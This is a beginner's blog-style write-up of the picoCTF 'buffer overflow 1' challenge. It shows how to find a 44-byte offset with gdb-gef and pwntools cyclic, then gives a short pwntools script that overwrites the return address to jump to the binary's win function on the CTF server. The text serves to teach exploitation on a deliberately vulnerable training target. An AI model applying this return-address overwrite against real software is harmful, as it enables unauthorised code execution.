

When I was younger, I was always fascinated with the idea of being able to break things digitally. However, I always believed that I was not
smart enough to pursue this. In 2022, I have decided to start learning reverse engineering again!
Starting out, I have started the Modern Binary Exploitation crackme files, and have been doing the picoCTF training ones as well. In this article
I will cover picoCTF buffer-overflow1!
Firstly, lets create a new directory called bufferoverflow1 or whatever you would like to call it, then cd into that directory
and wget both the vuln file and vuln.c file. Opening vuln.c with nano shows this:
It looks like buf is a character array with a size of 64 bytes. We also have a function called win, but win is never called... So how do we go about
calling win? Well, firstly lets run vuln to see how it works. Mark it as executable with chmod +x vuln and then type ./vuln
Entering any input should be fine here, so let's enter hello. After entering hello, we get the output: Okay, time to return... Fingers Crossed... Jumping to 0x804932f.
Ok, so lets break this! Lets open gdb-gef (make sure you have gdb installed first then: download gdb-gef), and type b main to set a breakpoint at the main function. Then type r
to resume.
We should be seeing something like this. Now what we can do is use pwntools (pip install pwntools) cyclic to generate a recognizable string for us.
If we type shell cyclic 64 and copy the output of that, we can type c again to continue. If we now paste in our string, and enter,
we should see something like this:
If we look, we can see that vuln has been stopped at 0x61616c with value laaa. If we now search for this pattern, using
search pattern 0x6161616c, we can see two offsets. 44 for little endian and 41 for big endian. Just make note of these two for now. Now we need
to get the address of the win function so that we can make our exploit redirect to the memory address of win. Type x win and note that as well.
Lets exit gdb and type file vuln. The output tells us that vuln is an LSB executable and LSB corresponds to little endian, so vuln is in
little endian. What is an endian you might ask? Well, endian is the way that our computers read and organize data. Little endian stores data with LSB first,
and big endian stores data with MSB first. Ok, now we have our offset of 44. Now it is time to write out payload!
These 9 lines are our entire payload! Let's go over what each line does.
from pwn import * — we import pwntools.payload = b'A'*44 — we make a variable: payload that contains the bytes of 44 A's.payload += p32(0x80491f6) — we add the memory address of win, converted to little endian, to our payload.host, port = "saturn.picoctf.net", "[EXAMPLE_PORT]" — we create two new variables named host and port. Put your port in example port.connection = remote(host, port) — using pwntools remote, we create connection using our host and port.log.info(connection.recvS()) — log is used to make our output pretty, and we make log output connection.recvS(), and recvS means read data silently.connection.sendline(payload) — we send our payload to our connection.log.success(connection.recvallS()) — if our log succeeds, output connection.recvallS(), which means read all bytes silently.connection.close() — close our connection.python3 payload.py:

Looking at our output, clearly everything worked smoothly. If we look, we can see that the program says time to jump with the memory address of 0x80491f6.
If we remember earlier, this is the memory address of win, which prints our flag!
This was a very basic introduction to binary exploitation, and I hope to be able to cover more in the future!